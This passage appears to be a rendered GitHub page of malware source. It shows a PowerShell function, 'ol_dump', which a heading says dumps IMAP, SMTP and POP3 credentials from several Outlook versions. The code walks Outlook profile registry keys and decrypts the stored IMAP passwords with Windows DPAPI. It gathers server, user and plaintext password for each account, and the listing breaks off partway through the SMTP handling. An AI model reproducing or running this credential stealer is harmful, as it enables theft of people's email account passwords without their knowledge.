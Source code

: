 <h6>The next functionalities are for dumping the credential from the differents versions of Outlook, this check for the IMAP, SMTP and POP3 credentials and configuration.</h6>

```csharp
function ol_dump()
{
  try
  {
    $wms = "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Windows Messaging Subsystem\Profiles\*\9375CFF0413111d3B88A00104B2A6676\*";
    $office = "HKCU:\Software\Microsoft\Office\1[56].0\Outlook\Profiles\*\9375CFF0413111d3B88A00104B2A6676\*";
    $allPaths = @();
    $olInfo = @{};
    $olError = "SUCCESS";
    $tmpWMS = (Get-ChildItem $wms -ErrorAction SilentlyContinue)
    $tmpOffice = (Get-ChildItem $office -ErrorAction SilentlyContinue)
    if($tmpWMS -ne $null){ $allPaths += $tmpWMS; }
    if($tmpOffice -ne $null){ $allPaths += $tmpOffice; }
    Add-Type -AssemblyName System.Security
    foreach($path in $allPaths) 
    {
      $imapServer = ($path | Get-ItemProperty -ErrorAction SilentlyContinue | select -ErrorAction SilentlyContinue -ExpandProperty "IMAP Server");
      if($imapServer -ne $null) 
      {
          $server = $imapServer
          try{ $server =  [System.Text.Encoding]::DEFAULT.GetString($imapServer) -replace "\u0000","" -replace "0x00",""; } catch {}
          $userBytes = ($path | Get-ItemProperty -ErrorAction SilentlyContinue | select -ErrorAction SilentlyContinue -ExpandProperty "IMAP User");
          $user = ""; 
          if($userBytes -ne $null) 
          {
            $user = $userBytes;
            try{ $user = [System.Text.Encoding]::DEFAULT.GetString($userBytes)  -replace "\u0000","" -replace "\x00",""; }catch{}
          }
          $encPwd = ($path | Get-ItemProperty -ErrorAction SilentlyContinue | select -ErrorAction SilentlyContinue -ExpandProperty "IMAP Password");
          $pwd = "";
          try
          {
            $pwd = [System.Text.Encoding]::DEFAULT.GetString([System.Security.Cryptography.ProtectedData]::Unprotect($encPwd[1..$encPwd.Length], $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser))  -replace "\u0000","" -replace "0x00",""
          }
          catch{}
          try 
          {
            $port = [System.Text.Encoding]::DEFAULT.GetString(($path | Get-ItemProperty -ErrorAction SilentlyContinue | select -ErrorAction SilentlyContinue -ExpandProperty "IMAP Port")) -replace "0x00",""
            $server += ":" + $port
          }
          catch{}
          if($olInfo[$server] -eq $null) { $olInfo[$server] = @(); }
          $olInfo[$server] += @{ [string]$user = [string]$pwd }
          $smtpServer = ($path | Get-ItemProperty -ErrorAction SilentlyContinue | select -ErrorAction SilentlyContinue -ExpandProperty "SMTP Server");
          if($smtpServer -ne $null) 
          {
            $server = $smtpServer;
```